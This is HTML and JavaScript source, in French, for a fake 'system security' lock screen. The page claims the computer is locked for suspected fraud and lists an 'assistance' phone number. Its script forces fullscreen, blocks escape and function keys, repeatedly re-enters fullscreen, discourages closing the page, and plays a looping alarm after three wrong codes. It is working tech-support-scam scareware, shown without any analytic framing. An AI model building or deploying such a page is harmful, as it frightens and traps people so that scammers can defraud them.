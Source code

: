 <!DOCTYPE html><html lang="fr">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>🔒 Sécurité Système</title>
    <style>
        * {
            margin: 0;
            padding: 0;
            box-sizing: border-box;
            font-family: Arial, sans-serif;
        }html, body {
        width: 100%;
        height: 100%;
        background: black;
        color: white;
        display: flex;
        justify-content: center;
        align-items: center;
        text-align: center;
        overflow: hidden;
        cursor: none;
    }

    .container {
        background: red;
        padding: 5%;
        border-radius: 10px;
        box-shadow: 0 0 10px white;
        width: 80vw;
        height: 80vh;
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }

    h1 {
        font-size: 5vw;
        margin-bottom: 2vh;
    }

    #alert-message {
        font-size: 3vw;
        margin-bottom: 3vh;
    }

    input {
        padding: 1vh;
        font-size: 3vw;
        margin-bottom: 2vh;
        text-align: center;
        outline: none;
        width: 50%;
    }

    button {
        background: black;
        color: white;
        padding: 2vh 4vw;
        font-size: 3vw;
        cursor: pointer;
    }

    #error-message {
        color: yellow;
        font-size: 2vw;
        margin-top: 2vh;
    }
</style>

</head>
<body onload="startLockdown()">
    <div class="container">
        <h1>🔴 ACCÈS BLOQUÉ 🔴</h1>
        <p id="alert-message">
            🚨 <b>SUSPICION D’ACTIVITÉ FRAUDULEUSE</b> 🚨<br>
            Votre ordinateur est verrouillé pour des raisons de **sécurité**.<br>
            Veuillez **entrer le code secret** pour déverrouiller.<br>
            <b>☎ Assistance : +44 741 30 52 610</b>
        </p>
        <input type="password" id="codeInput" placeholder="Entrez le code secret..." autofocus>
        <button onclick="checkCode()">Déverrouiller</button>
        <p id="error-message"></p>
    </div><script>
    const SECRET_CODES = ["dakar", "2012", "1234"];
    let attempts = 0;
    const maxAttempts = 3;

    function startLockdown() {
        forceMaxResolution();
        requestFullScreen();
        blockKeys();
        preventClose();
        document.getElementById("codeInput").focus();
    }

    function checkCode() {
        let inputCode = document.getElementById("codeInput").value.toLowerCase();
        if (SECRET_CODES.includes(inputCode)) {
            unlockSystem();
        } else {
            attempts++;
            document.getElementById("error-message").textContent = `⛔ Code incorrect (${attempts}/${maxAttempts})`;
            if (attempts >= maxAttempts) {
                playAlarm();
            }
        }
    }

    function forceMaxResolution() {
        document.documentElement.style.width = "100vw";
        document.documentElement.style.height = "100vh";
        document.body.style.width = "100vw";
        document.body.style.height = "100vh";
    }

    function requestFullScreen() {
        let elem = document.documentElement;
        if (elem.requestFullscreen) {
            elem.requestFullscreen();
        } else if (elem.mozRequestFullScreen) {
            elem.mozRequestFullScreen();
        } else if (elem.webkitRequestFullscreen) {
            elem.webkitRequestFullscreen();
        } else if (elem.msRequestFullscreen) {
            elem.msRequestFullscreen();
        }
    }

    function blockKeys() {
        document.addEventListener("keydown", function (event) {
            let blockedKeys = ["Escape", "F11", "F5", "F12", "Tab", "Control", "Alt", "Meta", "Shift", "Delete"];
            if (blockedKeys.includes(event.key)) {
                event.preventDefault();
            }
            if (event.key === "Enter") {
                checkCode();
            }
        });
    }

    function playAlarm() {
        let audio = new Audio("https://freesound.org/data/previews/411/411091_5121236-lq.mp3");
        audio.loop = true;
        audio.play();
    }

    function unlockSystem() {
        document.exitFullscreen();
        document.body.innerHTML = "<h1 style='color: green;'>✅ Accès Rétabli</h1>";
    }

    function preventClose() {
        window.onbeforeunload = function() {
            return "🚨 Attention ! Cette action peut provoquer une perte de données.";
        };
        document.addEventListener("visibilitychange", function() {
            if (document.hidden) {
                setTimeout(requestFullScreen, 10);
            }
        });
        setInterval(() => {
            if (!document.fullscreenElement) {
                requestFullScreen();
            }
        }, 500);
    }
</script>

</body>
</html>
